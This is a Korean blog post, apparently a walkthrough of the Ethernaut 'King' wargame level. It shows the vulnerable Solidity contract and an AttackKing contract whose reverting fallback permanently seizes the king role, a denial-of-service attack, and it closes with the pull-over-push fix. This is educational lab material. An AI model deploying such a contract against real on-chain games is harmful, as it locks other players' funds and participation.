 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 9) King
date: '2022-01-13 14:18:00'
author: 한성원
tags: ethernaut King vulnerability
categories: 취약점분석
---
```



# 👋 Force
__Difficulty 6/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- 게임을 break 하기
- 즉 내가 왕이되고 누구도 왕이 될 수 없게 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract King {
    // address of king
    address payable king;
    // 
    uint public prize;
    // contract의 owner
    address payable public owner;

    // contructor
    constructor() public payable {
        // set deployer as owner
        owner = msg.sender;  
        // set deployer as king
        king = msg.sender;
        // set prize as msg.value <- deployer's value
        prize = msg.value;
    }

    // receive function to get Ether
    receive() external payable {
        // msg.value가 현재 prize 보다 크거나, msg.sender가 owner이면 진행
        require(msg.value >= prize || msg.sender == owner);
        // king에게 msg.value를 보낸다.
        king.transfer(msg.value);
        // king을 msg.sender로 변경
        king = msg.sender;
        // prize를 msg.value로 변경
        prize = msg.value;
    }

    // 누가 king인지 볼 수 있는 함수
    function _king() public view returns (address payable) {
        return king;
    }
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 King은 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.

## 풀이
이 문제에서 우리의 목표는 이 게임을 break하는 것이다. 즉 누구도 게임을 할 수 없게 만들면 된다.

위 코드는 내가 전에 공부했던 King of Ether이라는 contract와 비슷하다. 그렇기 때문에 조금 쉽게 해결 할 수 있었다. unexpected revert가 무엇인지 궁금하다면 아래 post를 클릭해 먼저 보고오자!
- [DOS with Unexpected Revert](https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/)

이 문제에서 중요하게 봐야할 점은 .transfer이다. 우리는 transfer을 사용해 Ether를 보낼 수 있다. 근데 만약 EOA가 아닌 CA에게 Ether를 보내는 것이라면 어떨까? 

CA는 receive함수를 설정하여 Ether를 받지 않고 revert 시킬 수 있다. 즉 만약 CA가 king이 되고 Ether를 받지 못하게 설정한다면 이제 누구도 게임을 진행 할 수 없게된다.

attackKing contract를 한번 보며 더 이해해보자!

```solidity
contract AttackKing {

    constructor() public payable {}
    
    // King을 attack하는 function
    function attackKing(address payable _king) public payable {
        // send a transaction to King contract
        _king.call{value: msg.value}("");
    }

    // revert when ether comes in or when no name function was called
    fallback() external {
        revert();
    }
}
```
위 코드를 Remix IDE에서 위 코드를 Rinkeby Network에 배포한다.

우리가 King contract에서 공격할 수 있는 부분은 receive() function 밖에 없다. receive의 require 부분을 보면 prize보다 크거나 msg.sender가 owner이어야 한다. 우리는 owner가 될 수 없으니 prize보다 더 큰 값을 보내면 된다. 

우선 console 창에서 공격에 필요한 정보를 얻어보자
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// fromWei를 사용해 현재 prize의 값을 가져온다.
web3.utils.fromWei(await contract.prize()) // 0.001 Ether
```

remix로 돌아와서 0.001 Ether 보다 큰 값을 attackKing contract에 보낸다. 그럼 contract의 address가 King이 되어있을 것이다. 그리고 다른 account를 생성해 transaction을 보내본다면 revert 되는 것을 확인 할 수 있다. 아래 그림은 transaction을 보낸 후 etherscan에서 확인한 사진이다.
![transaction_reverted_ethernaut_King](transaction_reverted_ethernaut_King.png)

이후 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -

## Troubleshooting
나는 중간에 Gas Limit을 초과해 transcation이 계속해서 revert되는 것을 확인했다. 처음에는 무엇 때문인지 몰랐지만 etherscan에서 transaction을 확인한 후 알 수 있었다.
![gas_limit_failed-1](gas_limit_failed-1.png)
![gas_limit_failed-2](gas_limit_failed-2.png)

이후 transaction을 보낼때 gas limit을 높혀주니 transactino이 정상적으로 진행되었다.

- - -

## 마무리
전에 다뤘던 [DOS With Unexpected Revert 취약점](https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/)과 비슷했다. 위 게시글에서도 말했듯이 이 부분은 pull over push를 사용하여 문제를 해결 할 수 있다. ethernaut 시리즈가 끝나고 pull over push와 같은 방법론들도 다뤄보도록 하겠다!

- - -

## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- DOS With Unexpected Revert 취약점: https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/

```toc

```